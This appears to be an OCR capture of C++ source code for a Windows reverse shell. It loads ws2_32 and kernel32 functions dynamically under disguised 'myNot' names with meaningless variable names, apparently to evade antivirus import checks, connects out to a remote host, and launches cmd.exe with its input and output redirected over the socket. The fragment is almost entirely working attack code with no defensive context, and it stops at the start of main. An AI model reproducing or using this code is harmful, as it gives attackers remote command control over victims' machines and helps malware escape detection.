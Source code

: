 ```cpp
        WSADATA ccc; //version

		HMODULE hkernel32 = LoadLibraryA("kernel32.dll");
		
		HMODULE hws2_32 = LoadLibraryA("ws2_32.dll");
		
        myNotWSAStartup notWSAStartup = (myNotWSAStartup) GetProcAddress(hws2_32,"WSAStartup"); // GetProcAddress(hws2_32,"WSAStartup");
        notWSAStartup(MAKEWORD(2,2), &ccc);

		myNotWSASocketA notWSASocketA = (myNotWSASocketA) GetProcAddress(hws2_32,"WSASocketA"); // GetProcAddress(hws2_32,"WSASocketA");
        aaa = notWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        
        bbb.sin_family = AF_INET;

		myNotinet_addr notinet_addr = (myNotinet_addr) GetProcAddress(hws2_32,"inet_addr"); // GetProcAddress(hws2_32,"inet_addr");
        bbb.sin_addr.s_addr = notinet_addr(ddd);

		myNothtons nothtons = (myNothtons) GetProcAddress(hws2_32,"htons"); // GetProcAddress(hws2_32,"htons");
        bbb.sin_port = nothtons(eee);

		
		myNotWSAConnect notWSAConnect = (myNotWSAConnect) GetProcAddress(hws2_32,"WSAConnect"); // GetProcAddress(hws2_32,"WSAConnect");
        if (notWSAConnect(aaa, (SOCKADDR*)&bbb, sizeof(bbb), 0, 0, 0, 0)==SOCKET_ERROR) {
	        
	        myNotclosesocket notclosesocket = (myNotclosesocket) GetProcAddress(hws2_32,"closesocket"); // GetProcAddress(hws2_32,"closesocket");
            notclosesocket(aaa);

			myNotWSACleanup notWSACleanup = (myNotWSACleanup) GetProcAddress(hws2_32,"WSACleanup"); // GetProcAddress(hws2_32,"WSACleanup");
            notWSACleanup();
        } else {
        
            char Process[] = "cmd.exe";
            
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) aaa;
			
			myNotCreateProcessA notCreateProcessA = (myNotCreateProcessA) GetProcAddress(hkernel32,"CreateProcess"); // GetProcAddress(hkernel32,"CreateProcess");
            notCreateProcessA(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

			myNotWaitForSingleObject notWaitForSingleObject = (myNotWaitForSingleObject) GetProcAddress(hkernel32,"WaitForSingleObject"); // GetProcAddress(hkernel32,"WaitForSingleObject");
            notWaitForSingleObject(pinfo.hProcess, INFINITE);

			myNotCloseHandle notCloseHandle = (myNotCloseHandle) GetProcAddress(hkernel32,"CloseHandle");
            notCloseHandle(pinfo.hProcess);
            notCloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
```